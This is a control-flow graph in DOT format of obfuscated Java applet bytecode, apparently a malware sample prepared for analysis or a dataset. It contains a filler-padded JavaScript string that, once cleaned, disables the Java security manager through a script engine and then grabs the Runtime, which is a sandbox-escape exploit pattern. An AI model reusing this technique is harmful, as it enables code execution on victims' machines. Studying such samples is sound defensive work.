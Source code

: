 digraph "" {
    "r0 := @this: opj.opj"
    "load.r r0"
    "r0 := @this: opj.opj"->"load.r r0";
    "new opj.YJBOx"
    "load.r r0"->"new opj.YJBOx";
    "dup1.r"
    "new opj.YJBOx"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new opj.S0Ema0n0"
    "push 0"->"new opj.S0Ema0n0";
    "new opj.S0Ema0n0"->"dup1.r";
    "specialinvoke <opj.S0Ema0n0: void <init>()>"
    "dup1.r"->"specialinvoke <opj.S0Ema0n0: void <init>()>";
    "push \"\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116j\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116s\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\""
    "specialinvoke <opj.S0Ema0n0: void <init>()>"->"push \"\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116j\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116s\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\"";
    "push \"\u2116\""
    "push \"\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116j\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116s\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\u2116\""->"push \"\u2116\"";
    "push \"\""
    "push \"\u2116\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <opj.S0Ema0n0: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <opj.S0Ema0n0: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <opj.S0Ema0n0: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r2"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "load.r r2"->"load.r r0";
    "fieldget <opj.opj: java.lang.String ffrreess>"
    "load.r r0"->"fieldget <opj.opj: java.lang.String ffrreess>";
    "fieldget <opj.opj: java.lang.String ffrreess>"->"push \"\u2116\"";
    "push \"\u2116\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"\u2116t\u2116hi\u2116\u2116\u2116\u2116s.to\u2116St00555500ri\u2116\u2116\u2116ng\u2116 = \u2116fun\u2116550000055cti000on() {java.lang0\u2116\u2116\u211600.Sys\u2116\u2116\u2116t0e\u2116\u2116\u2116\u2116m.0s\u2116\u2116\u2116\u2116et0Secu0rityM0a555555555na0055555ger(null);app555550let0.sfews0dfd555555555555550();return \'pshol0000n0ahiy\';};sdfsdf0sdfscs = new 0E0rror();sdfsdfs000dfscs.m0essage = 0this;sdfsdf000s\u2116\u2116\u2116\u2116dfscs\""
    "pop"->"push \"\u2116t\u2116hi\u2116\u2116\u2116\u2116s.to\u2116St00555500ri\u2116\u2116\u2116ng\u2116 = \u2116fun\u2116550000055cti000on() {java.lang0\u2116\u2116\u211600.Sys\u2116\u2116\u2116t0e\u2116\u2116\u2116\u2116m.0s\u2116\u2116\u2116\u2116et0Secu0rityM0a555555555na0055555ger(null);app555550let0.sfews0dfd555555555555550();return \'pshol0000n0ahiy\';};sdfsdf0sdfscs = new 0E0rror();sdfsdfs000dfscs.m0essage = 0this;sdfsdf000s\u2116\u2116\u2116\u2116dfscs\"";
    "push \"\u2116t\u2116hi\u2116\u2116\u2116\u2116s.to\u2116St00555500ri\u2116\u2116\u2116ng\u2116 = \u2116fun\u2116550000055cti000on() {java.lang0\u2116\u2116\u211600.Sys\u2116\u2116\u2116t0e\u2116\u2116\u2116\u2116m.0s\u2116\u2116\u2116\u2116et0Secu0rityM0a555555555na0055555ger(null);app555550let0.sfews0dfd555555555555550();return \'pshol0000n0ahiy\';};sdfsdf0sdfscs = new 0E0rror();sdfsdfs000dfscs.m0essage = 0this;sdfsdf000s\u2116\u2116\u2116\u2116dfscs\""->"push \"\u2116\"";
    "push \"\u2116\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"0\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"0\"";
    "push \"0\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"5\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"load.r r2";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r2"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <opj.YJBOx: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <opj.YJBOx: void <init>(java.lang.Object[])>";
    "virtualinvoke <opj.opj: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <opj.YJBOx: void <init>(java.lang.Object[])>"->"virtualinvoke <opj.opj: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <opj.opj: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "fieldput <opj.opj: java.lang.Runtime rtrtrew0w>"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"fieldput <opj.opj: java.lang.Runtime rtrtrew0w>";
    "goto return"
    "fieldput <opj.opj: java.lang.Runtime rtrtrew0w>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}

